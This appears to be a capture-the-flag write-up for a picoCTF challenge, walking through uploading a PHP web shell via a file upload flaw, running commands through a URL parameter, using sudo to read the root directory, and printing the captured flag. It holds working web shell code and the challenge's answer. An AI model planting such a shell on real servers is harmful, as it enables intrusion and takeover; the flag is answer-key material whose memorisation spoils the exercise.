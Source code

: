 # Step by step breakdown

**🔥 Exploited file upload vulnerability → PHP shell → Sudo privilege → Captured flag. No reverse shells needed this time.**

I first started off by trying to run a classic php shell through the file upload vulnerability

    <?php
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    ?>

I saved this code to a file and named it shell.php and uploaded it through the file upload functionality


![SHELLupload](../media/Screenshots/Shell-upload-output-n0s4n1ty.png)

afterwards I traversed to the URL where the file I executed a simple whoami command by appending '?cmd=whoami' to the URL

Screenshots

![whoamioutput](../media/Screenshots/whoami-output-n0s4n1ty.png)


With www-data I cannot access the /root directory, so I know I have to try some light privilege escalation techniques. I start by trying the sudo -l command which outputs:


![sudo-loutput](../media/Screenshots/sudo-l--output-n0s4n1ty.png)


which leads me to believe that I can simply access the root directory with sudo privileges without having to escalate to a root user, so I run

    ls -la /root

to view all the files in root directory


![rootoutput](../media/Screenshots/ls-root-n0s4n1ty.png)


Then it's BBQ chicken from there

!['loki gif'](../media/gifs/Devious-ahh-loki.gif)


# Capturing the flag 🏁

    sudo cat /root/flag.txt

![flagoutput](../media/Screenshots/flag-n0s4n1ty.png)

    picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}

Flag captured. Game over. 🎯

!['loki gif'](../media/gifs/tom-hiddleston-loki-wink.gif)


# Lessons learned

Don't waste trying to launch reverse shells on rooms like this cuz they're hosted on AWS and more than likely won't let you establish a connection and you'll spend twenty minutes trying to figure out what's wrong only to find out that you should have just stuck with the webshell instead of trying to be a ghetto red team operator

!['loki gif'](../media/gifs/Frustrated-loki.gif)

